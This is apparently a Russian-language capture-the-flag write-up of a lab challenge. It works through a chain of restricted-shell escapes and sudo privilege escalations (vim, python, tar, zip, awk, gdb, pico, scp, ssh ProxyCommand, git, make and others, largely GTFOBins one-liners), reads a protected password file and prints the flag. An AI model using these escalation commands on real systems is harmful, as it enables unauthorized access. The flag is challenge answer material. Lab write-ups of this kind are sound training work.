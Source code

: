 1. Подключаемся к машине и пробуем осмотреться. ls не работает и понимаем что это rbash.
2. Пробуем осмотреться с по мощью echo  и успешно.
3. Находим доступный нам vim. Отлично, пробуем использовать его для получения bash shell:
```
:set shell=/bin/bash
:shell
```
 И успешно.
4. Проверяем sudo -l, видим путь до sudo/
5. Проверяем /usr/bin/sudo -l и видим что sudo позволяет нам запустить python.
6. Используем эту возможность : ```
```
app-script-ch14@challenge02:~$ /usr/bin/sudo -u app-script-ch14-2 /usr/bin/python
```
 Далее вводим: "
 ```
import os
```
```
os.system('/bin/bash')
```
И проходим дальше.
7. Вывод sudo -l :
User app-script-ch14-2 may run the following commands on challenge02:
    (app-script-ch14-3) NOPASSWD: /bin/tar
8. Здесь и далее на помощь приходить GTFOBins:
```
sudo -u app-script-ch14-3 /bin/tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
 И успешно проходим.
 1. Снова проверяем sudo -l :
 User app-script-ch14-3 may run the following commands on challenge02:
    (app-script-ch14-4) NOPASSWD: /usr/bin/zip
10. Находим команду на  GTFOBins:
```
sudo -u app-script-ch14-4 /usr/bin/zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```

Проходим далее.
11. И снова  sudo -l : 
 User app-script-ch14-4 may run the following commands on challenge02:
    (app-script-ch14-5) NOPASSWD: /usr/bin/awk
И снова  GTFOBins:
```
sudo -u app-script-ch14-5 /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```
12. sudo -l :
User app-script-ch14-5 may run the following commands on challenge02:
    (app-script-ch14-6) NOPASSWD: /usr/bin/gdb
13. Запускаем команду: 
```
sudo -u app-script-ch14-6 /usr/bin/gdb
```
и используем ранее применяемую команду python:
```
python import os; os.system('/bin/bash')
```
 И получаем следующую оболочку.
 14. sudo -l :
 User app-script-ch14-6 may run the following commands on challenge02:
    (app-script-ch14-7) NOPASSWD: /usr/bin/pico
15. В описании pico находим интересные сведения о его проверке орфографии, а так же интересный способ его использования))) и Запускаем команду: 
```
sudo -u app-script-ch14-7 pico
```
 
Далее нажимаем CTRL +R и CTRL+X
В "Command to execute" вводим: reset; sh 1>&0 2>&0
И получаем shell app-script-ch14-7
16. sudo -l
User app-script-ch14-7 may run the following commands on challenge02:
    (app-script-ch14-8) NOPASSWD: /usr/bin/scp
Изучаем man по scp и находим следующее: 
-S _program_ — Name of program to use for the encrypted connection. The _program_ must understand ssh(1) options.
17. Но попробуем реализовать другой вариант:
$ TF=$(mktemp)
$ echo 'sh 0<&2 1>&2' > $TF
$ chmod +x "$TF"
$ sudo -u app-script-ch14-8 scp -S $TF x y:
Но получаем: /bin/sh: 0: Can't open /tmp/tmp.hcsXxSnA6D
lost connection
18. Создадим новый каталог:
$  mkdir /tmp/caca
$ cd /tmp/caca
$ echo 'sh 0<&2 1>&2' > /tmp/caca/cmd.sh
$ chmod +x cmd.sh
$ sudo -u app-script-ch14-8 scp -S /tmp/caca/cmd.sh x y:
После выполнения команд вывода не последовало, проверяем и видим :
$ whoami 
app-script-ch14-8
19. $ sudo -l
User app-script-ch14-8 may run the following commands on challenge02:                                                                                                                                
    (app-script-ch14-9) NOPASSWD: /usr/bin/env 
20. Ну это уже просто: 
```
sudo -u app-script-ch14-9 env /bin/sh
```
21. $ sudo -l                                                                                                                                               
    (app-script-ch14-10) NOPASSWD: /usr/bin/ssh
Поиск информации привёл к способу выполнения команды ещё до установки соединения, пробуем, но в этот раз не успешно:  
```
$ sudo -u app-script-ch14-10 /usr/bin/ssh -o ProxyCommand="sh -c './run.sh'" 127.0.0.1          
Could not create directory '/challenge/app-script/ch14/.ssh'.     
sh: 1: ./run.sh: not found                                                               
ssh_exchange_identification: Connection closed by remote host
$ ./shell                                                                                         
/bin/sh: 4: ./shell: not found
```                          
22. Пробуем другой способ:
```
$ sudo -u app-script-ch14-10 ssh -o ProxyCommand=';sh 0<&2 1>&2' x
Could not create directory '/challenge/app-script/ch14/.ssh'.
```     
 И на этот раз:
```
$ whoami  
app-script-ch14-10           
$
```
23. sudo -l
User app-script-ch14-10 may run the following commands on challenge02:
    (app-script-ch14-11) NOPASSWD: /usr/bin/git
24. Воспользуемся возможностью выполнить команду с помощью вызова help:
```
sudo -u app-script-ch14-11 git -p help config !/bin/sh
```

Открывается man  и bash, проверяем: 
```
$ whoami
app-script-ch14-11

```
25. sudo -l
```
User app-script-ch14-11 may run the following commands on challenge02:                                             
    (app-script-ch14-12) NOPASSWD: /usr/bin/make
```
И Снова на помощь приходит GTFOBins, правда с поправками:
Источник гласит, что команды не сработают, т.к. флаг --eval не поддерживается. Значит снова пойдём другим путём! Создадим в tmp новую папку и файл Makefile с содержимым: makeit: /bin/sh . И Выполним :
sudo -u app-script-ch14-12 make
```
$ mkdir /tmp/mk^C
$ cd /tmp/mk
$ vim Makefile
$ cat Makefile
makeit:
        /bin/sh
$ sudo -u app-script-ch14-12 make^C
$ whoami
app-script-ch14-12
$ 
```
26. sudo -l 
User app-script-ch14-12 may run the following commands on challenge02:
    (app-script-ch14-13) NOPASSWD: /usr/bin/script
GTFOBins по этому поводу говорит: ```
```
script -q /dev/null
```
Делаем: sudo -u app-script-ch14-13 script -q /dev/null
И проходим.
27. sudo -l 
User app-script-ch14-13 may run the following commands on challenge02:
    (app-script-ch14-14) NOPASSWD: /bin/rbash --
И  видим rbash. 
По этому: ```
```
sudo -u app-script-ch14-14 /bin/rbash --
```
 И идём дальше.
 28. Sudo -l как и в начале не работает, но это мы уже проходили:
```
app-script-ch14-14@challenge02:~/step14$ sudo -l
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
app-script-ch14-14@challenge02:~/step14$ echo ./*
./sl
app-script-ch14-14@challenge02:~/step14$
```
Запускаем ./sl и понимаем что запустить его не получится : 
rbash: ./sl: restricted: cannot specify `/' in command names
Поиски привели только к возможности использовать mapfile и прочитать passwd: 
```
app-script-ch14-14@challenge02:~/step14$ mapfile ARRAY < ../.passwd ARRAY
app-script-ch14-14@challenge02:~/step14$ echo $ARRAY
3sc@p3_G@m3s_@r3_R34lly_Fun!!
app-script-ch14-14@challenge02:~/step14$
```
29. Долгожданный флаг получен!!!!
Скриншоты по проделанной работе прилагаю ниже:![[Снимок экрана 2024-11-04 213641.png]]![[Снимок экрана 2024-11-05 005230.png]]

![[Снимок экрана 2024-11-05 005545.png]]

![[Снимок экрана 2024-11-05 005747.png]]

![[Снимок экрана 2024-11-05 012019.png]]

![[Снимок экрана 2024-11-05 012947.png]]

![[Снимок экрана 2024-11-06 233454.png]]

![[Снимок экрана 2024-11-06 235405.png]]

![[Снимок экрана 2024-11-07 000819.png]]

![[Снимок экрана 2024-11-04 214356.png]]

![[Снимок экрана 2024-11-04 215758.png]]

![[Снимок экрана 2024-11-04 220226.png]]

![[Снимок экрана 2024-11-04 221215.png]]

![[Снимок экрана 2024-11-04 221341.png]]

![[Снимок экрана 2024-11-04 221723.png]]

![[Снимок экрана 2024-11-05 001745.png]]

![[Снимок экрана 2024-11-05 003540.png]]

![[Снимок экрана 2024-11-05 003720.png]]

![[Снимок экрана 2024-11-05 004424.png]]